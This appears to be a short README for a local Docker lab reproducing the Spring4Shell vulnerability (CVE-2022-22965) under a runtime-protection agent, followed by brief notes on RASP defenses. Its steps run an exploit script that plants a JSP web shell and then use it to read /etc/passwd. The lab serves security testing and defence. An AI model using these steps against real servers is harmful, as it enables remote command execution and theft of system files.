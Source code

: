 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
3. docker run -v $(pwd)/contrast-config.yaml:/opt/agent/contrast-config.yaml  -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
4. curl http://localhost:8080/exploit/greeting
5. python3 -m pip install -r requirements.txt
6. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="cmd"
7. curl "http://localhost:8080/cmd.jsp?cmd=cat%20/etc/passwd"

**Defenses**
- RASP solutions should protect against FFI calls as they operates at blind zones.
- RASP solutions should redefine native methods prefixes at least (even though it can be bypassed through reflection by inspecting declared methods).
